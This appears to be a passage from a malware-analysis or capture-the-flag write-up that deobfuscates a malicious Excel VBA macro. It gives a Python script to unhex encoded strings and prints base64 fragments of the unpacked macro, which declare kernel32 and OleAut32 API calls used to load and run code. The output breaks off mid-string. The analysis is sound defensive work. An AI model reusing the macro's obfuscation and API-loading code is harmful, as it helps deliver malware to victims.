#### Code from strings

Definitely not readable 😅 But I do notice an interesting function. Note that there are many calls to `OtrpOlvrHtgdOt`, e.g.

* `OtrpOlvrHtgdOt("50726976617465")`
* `OtrpOlvrHtgdOt("2053756220576f726b626f6f6b5f4e6577536865657428427956616c20526f65724f696e65556e6c6872204173204f626a65637429")`
* `OtrpOlvrHtgdOt("456e6420")`

And this function takes in something that looks like a hex-encoded string. And if I hex-decode the 3 strings above, I get:

* `Private`
* ` Sub Workbook_NewSheet(ByVal RoerOineUnlhr As Object)`
* `End `

So... the macro is most likely unpacking code from strings, and then it will run the unpacked code later. I decided to unhex all the strings passed to `OtrpOlvrHtgdOt`. Wrote a simple script to do so:

```py
import re
from binascii import unhexlify
from base64 import b64decode

pattern = b'OtrpOlvrHtgdOt\("(\S+)"\)'
vba = open("olevba", "rb").read()

founds = re.findall(pattern, vba)
for found in founds:
    unhex = unhexlify(found)
    print(unhex.decode())
```

And I get the following strings (there's a lot!). Here are some interesting ones:

```plaintext
...
App
lica
tion
DQoNCiAgICAgICAgICAgICAgICAgICAgRGVjbGFyZSBQdHJTYWZlIEZ1bmN0aW
9uIEdldE1vZHVsZUhhbmRsZUEgTGliICJrZXJuZWwzMiIgKEJ5VmFsIE9wcnBVYWlhVGx0c0l0ZW9UbiBBcyBTdHJpbmcpIEFzIExvbmdQdHINCkRlY2xhcmUgUHRyU2FmZSBGdW5jdGlvbiBHZXRQcm9jQWRkcmVzcyBMaWIgImtlcm5lbDMyIiAoQnlWYWwgV21vdFNlX2JFdHJlR3Jscm8gQXMgTG9uZ1B0ciwgQnlWYWwgT3Vpd01lbXJZYW5hX3JtaXUgQXMgU3RyaW5nKSBBcyBMb25nUHRyDQpEZWNsYXJlIFB0clNhZmUgRnVuY3Rpb24gRGlzcENh
bGxGdW5jIExpYiAiT2xlQXV0MzIuZGxsIiAoQnlWYWwgT2l1YVNocG5IYXRkT19rbyBBcyBMb25nUHRyLCBCeVZhbCBMc2FsUG5wclRscmVpIEFzIExvbmdQdHIsIEJ5VmFsIEFpZXRHYV9oTHBhb0NvbWNvIEFzIE
xvbmdQdHIsIEJ5VmFsIEl0bnNMc3VuYSBBcyBJbnRlZ2VyLCBCeVZhbCBFYWhkS2F2dUhpZyBBcyBMb25nLCBCeVJlZiBBdm93TmhnX1RtdHZFbSBBcyBJbnRlZ2VyLCBCeVJlZiBVaWxlTWxzb2YgQXMgTG9uZ1B0ciwgQnlSZWYgQ3V0cklrb3VFbG5jbCBBcyBWYXJpYW50KSBBcyBMb25nUHRyDQpEZWNsYXJlIFB0
clNhZmUgRnVuY3Rpb24gTG9hZExpYnJhcnkgTGliICJrZXJuZWwzMiIgQWxpYXMgIkxvYWRMaWJyYXJ5QSIgKEJ5VmFsIFJlbnZUdSBBcyBTdHJpbmcpIEFzIExvbmdQdHINCg0KICAgICAgICAgICAgICAgICAgICANCiAgICAgICAgICAgICAgICAgICAgDQoNCiAgICAgICAgICAgICAgICAgICAgRnVuY3Rpb24gRGhrbE1hb2l0KEJ5VmFsIHZDb2RlKQ0KRGltIF
Jlb3NJbmRhVG9pdEFvaXVuLCBJYXVuRWxvdUJhZXdHdm4NCkRpbSBFaGRyRW11b1lpYmdSc2ggQXMgU3RyaW5nDQpFaGRyRW11b1lpYmdSc2ggPSBDdGRjSXBlYkFr
ZWxHaSgiNGQ3Mzc4NmQiKQ0KRWhkckVtdW9ZaWJnUnNoID0gRWhkckVtdW9ZaWJnUnNoICYgQ3RkY0lwZWJBa2VsR2koIjZjMzIyZSIpICYgQ3RkY0lwZWJBa2VsR2koIjQ0NGYiKQ0KRWhkckVtdW9ZaWJnUnNoID0gRWhkckVtdW9ZaWJnUnNoICYgQ3RkY0lwZWJBa2VsR2koIjRkNDQ2ZjY
zIikNCkVoZHJFbXVvWWliZ1JzaCA9IEVoZHJFbXVvWWliZ1JzaCAmIEN0ZGNJcGViQWtlbEdpKCI3NTZkNjUiKSAmIEN0ZGNJcGViQWtlbEdpKCI2ZTc0MmUzMzJlMzAiKQ0KU2V0IFJlb3NJbmRhVG9pdEFvaXVuID0gQ3JlYXRlT2JqZWN0
KEVoZHJFbXVvWWliZ1JzaCkNClNldCBJYXVuRWxvdUJhZXdHdm4gPSBSZW9zSW5kYVRvaXRBb2l1bi5DcmVhdGVFbGVtZW50KEN0ZGNJcGViQWtlbEdpKCI2MjYxNzM2NSIpICYgQ3RkY0lwZWJBa2VsR2koIjM2MzQiKSkNCklhdW5FbG91QmFld0d2bi5EYXRhVHlwZSA9IEN0ZGNJcGViQWtlbEdpKCI2MjY5NmUyZTYyNjE3MzY1IikgJiBDdGRjSXBlYkFrZWxHaSgiMzYzNCIpDQpJYXVuRWxvdUJhZXdHdm4uVGV4dCA9IHZDb2RlDQpEaGtsTWFvaXQgPSBTdG5mU2VpckFlbmR
Cb2FldChJYXVuRWxvdUJhZXdHdm4ubm9kZVR5cGVk
```
